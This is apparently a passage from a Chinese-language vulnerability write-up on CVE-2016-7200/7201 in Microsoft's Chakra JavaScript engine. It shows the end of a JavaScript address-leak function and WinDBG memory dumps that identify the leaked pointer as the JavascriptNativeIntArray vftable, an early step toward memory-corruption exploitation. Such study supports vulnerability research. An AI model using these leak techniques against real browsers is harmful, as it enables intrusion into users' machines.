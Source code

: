 ``` JavaScript
        h.push(n);
    }
   print_address_64("Return address of PutDataAndGetAddr", h[3], h[2]);
    return [h[3], h[2]];
}
```

在filter调用前的结果:
![](images/CVE-2016-7200_CVE-2016-7201/1_before_filter_alert_page.png)

在filter调用后的结果:
![](images/CVE-2016-7200_CVE-2016-7201/2_after_filter_alert_page.png)

将结果转成64位地址：
![](images/CVE-2016-7200_CVE-2016-7201/3_return_address.png)

可以看到最后的返回地址是0x2131a027b60，通过WinDBG中，可以看看这个地址所对应的信息。

<pre>
<code>
0:024> dq 0x2131a027b60
00000213`1a027b60  <b><font color="red">00007ff9`6b5838d8</font></b> 00000213`1a1bb040
00000213`1a027b70  00000000`00000000 00000000`00000005
00000213`1a027b80  00000000`00000010 00000213`1a027ba0
00000213`1a027b90  00000213`1a027ba0 00000213`19faf1c0
00000213`1a027ba0  00000010`00000000 00000000`00000012
00000213`1a027bb0  00000000`00000000 <b><font color="red">00000000`00000038</font></b>
00000213`1a027bc0  00000000`00000000 00000000`00000000
00000213`1a027bd0  00000000`00000000 00000000`00000000
</code>
</pre>

因为传入的x是整形数组，通过在windbg中也可以看到相应的信息

<pre>
<code>
0:024> ln poi(0x2131a027b60)
<font color="red">(00007ff9`6b5838d8)   <b>chakra!Js::JavascriptNativeIntArray::`vftable'</b></font>   |  (00007ff9`6b583c28)   chakra!Js::JavascriptArray::`vftable'
Exact matches:
    chakra!Js::JavascriptNativeIntArray::`vftable' = <no type information>
